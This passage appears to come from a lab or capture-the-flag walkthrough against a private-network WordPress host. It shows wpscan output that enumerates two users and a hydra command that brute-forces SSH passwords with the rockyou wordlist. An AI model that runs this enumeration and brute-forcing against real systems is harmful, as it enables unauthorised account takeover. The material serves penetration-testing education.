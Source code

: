 ```
=====================================================
```
<p>
We discover a wordpress installation. We can run another directory-busting scan on that directory,
and we could probe a bit more with wpscan: <code>wpscan --url http://10.0.2.5/wordpress -e --wp-content-dir wp-content</code>
</p>

```
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.4.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://10.0.2.5/wordpress/

[...]

[i] User(s) Identified:

[+] michael
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] steven
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

<p>
We gain two wordpress users. We could try to log into wordpress at <code>10.0.2.5/wordpress/wp-login.php</code>,
or try our luck with SSH. I prepared hydra and tried at SSH first, since it will be more valuable if it ends up working. If it doesn't, we'll go ahead with wordpress. Either way, we need to create a text file with our users to feed into hydra. Since there are only 2 users, doing it manually is fine. I put them into a file called users.txt. Here's the command:
<code><a href='https://explainshell.com/explain?cmd=hydra+-L+users.txt+-P+%2Fusr%2Fshare%2Fwordlists%2Frockyou.txt++-e+nsr+-o+hydra.log+-t8+-f+ssh%3A%2F%2F10.0.2.5' target="_blank">hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  -e nsr -o hydra.log -t8 -f ssh://10.0.2.5</a></code>. If you're using Kali, unzip whichever wordlist you decided to use. I just used rockyou. Hydra uses 16 threads by default, so I reduced it to 8. Too many parallel connections can cause errors or disable the service.
</p>

